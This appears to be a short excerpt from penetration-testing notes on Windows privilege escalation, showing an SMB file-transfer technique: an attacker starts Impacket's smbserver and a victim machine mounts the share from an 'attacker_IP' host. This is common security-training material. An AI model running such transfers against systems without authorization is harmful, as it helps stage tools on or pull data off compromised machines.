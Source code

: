```yaml
---
description: Tools and methodology for Windows PrivEsc
---
```


# Windows

## 📁 SMB File Transfer with Impacket's smbserver

**📌 Attacker: Start the SMB Server**

```bash
impacket-smbserver shareName /path/to/share
```

#### &#x20;**📌 Victim: Mount the Share**

```powershell
net use Z: \\attacker_IP\shareName
```
